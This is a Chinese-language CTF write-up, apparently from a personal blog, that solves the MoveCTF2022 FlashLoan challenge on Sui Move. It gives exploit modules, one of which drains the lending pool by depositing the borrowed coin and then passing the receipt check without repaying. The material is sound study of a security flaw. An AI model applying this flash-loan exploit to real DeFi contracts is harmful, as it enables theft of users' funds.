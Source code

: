 +++
title = 'MoveCTF2022 FlashLoan'
date = 2024-05-31T00:37:25Z
+++

原题目在https://github.com/movebit/movectf-4/blob/master/sources/module.move 考察闪电贷    
由于Move2024有些变化，我对源码做了微调https://github.com/m4sk93/movectf/tree/main/movectf2022/flashloan

## 环境搭建
参考[MoveCTF2022 Checkin](https://m4sk93.github.io/posts/movectf2022_1/)部署题目后，  
为了后续调用方便，在配置文件中添加package ID
```
[package]
name = "movectf2022_flashloan"
edition = "2024.beta" # edition = "legacy" to use legacy (pre-2024) Move
# license = ""           # e.g., "MIT", "GPL", "Apache 2.0"
# authors = ["..."]      # e.g., ["Joe Smith (joesmith@noemail.com)", "John Snow (johnsnow@noemail.com)"]
published-at = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }

[addresses]
#movectf2022_flashloan = "0x0"
movectf2022_flashloan = "0x2a61d471519b8e85a7730bebcfc3c5cace6ffffb2f5576d593821422d514adc2" # package id

```

## 编写exp
为了调用题目，在配置文件中添加依赖
```
[dependencies]
Sui = { git = "https://github.com/MystenLabs/sui.git", subdir = "crates/sui-framework/packages/sui-framework", rev = "framework/testnet" }
movectf2022_flashloan= { local = "../movectf2022_flashloan/" }
```

初步分析getflag时会检查是否已经把池子抽干,
```
    // check whether you can get the flag
    public entry fun get_flag(self: &mut FlashLender, ctx: &mut TxContext) {
        if (balance::value(&self.to_lend) == 0) {
            event::emit(Flag { user: tx_context::sender(ctx), flag: true });
        }
    }
```
直接试试：
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }
}
```
结果编译时就报错
```
error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │              ---- The local variable 'coin' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:54:9
   │
54 │     ): (Coin<FLASH>, Receipt) {
   │         ----------- The type 'sui::coin::Coin<movectf2022_flashloan::flash::FLASH>' does not have the ability 'drop'
   │
   ┌─ /home/kali/.move/https___github_com_MystenLabs_sui_git_framework__testnet/crates/sui-framework/packages/sui-framework/sources/coin.move:35:19
   │
35 │     public struct Coin<phantom T> has key, store {
   │                   ---- To satisfy the constraint, the 'drop' ability would need to be added here

error[E06001]: unused value without 'drop'
   ┌─ ./sources/exp.move:9:37
   │
 8 │         let (coin, receipt) = flash::loan(lender, 1000, ctx);
   │                    ------- The local variable 'receipt' still contains a value. The value does not have the 'drop' ability and must be consumed before the function returns
 9 │         flash::get_flag(lender, ctx);
   │                                     ^ Invalid return
   │
   ┌─ ./../movectf2022_flashloan/sources/movectf2022_flashloan.move:24:19
   │
24 │     public struct Receipt {
   │                   ------- To satisfy the constraint, the 'drop' ability would need to be added here
   ·
54 │     ): (Coin<FLASH>, Receipt) {
   │                      ------- The type 'movectf2022_flashloan::flash::Receipt' does not have the ability 'drop'
```
所以必须对coin和receipt进行处理,不能让你贷完就跑路

注意看代码里的这个结构体：
```
    public struct Receipt {
        flash_lender_id: ID,
        amount: u64
    }
```
参考 [Hot Potato](https://examples.sui.io/patterns/hot-potato.html)
(Hot Potato is a name for a struct that has no abilities, hence it can only be packed and unpacked in its module. In this struct, you must call function B after function A in the case where function A returns a potato and function B consumes it.)
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }
}
```
有借有还，这下成功了.

问题来了，可以不还吗？？？

还有一种利用方式
```
/// Module: exp
module exp::exp {

    use sui::tx_context::TxContext;
    use movectf2022_flashloan::flash::{Self, FlashLender};

    public entry fun exp1(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::get_flag(lender, ctx);

        flash::repay(lender, coin);
        flash::check(lender, receipt);
    }

    public entry fun exp2(lender: &mut FlashLender, ctx: &mut TxContext) {
        let (coin, receipt) = flash::loan(lender, 1000, ctx);

        flash::deposit(lender, coin, ctx);
        flash::check(lender, receipt);
        flash::withdraw(lender, 1000, ctx);

        flash::get_flag(lender, ctx);
    }

}
```
问题在于：coin可以通过`deposit`消耗掉.通过`check`消耗`receipt`时不需要发送coin.而且check判断余额的方式也不对。

## 拓展

https://github.com/movebit/movectf2024-day1/tree/main/swap


## 参考资料

感谢大佬们无私分享
- [MoveCTF 2022 题解](https://lanford33.com/movectf-2022)
- [MoveCTF 所有题解Writeup](https://learnblockchain.cn/index.php/article/5025)

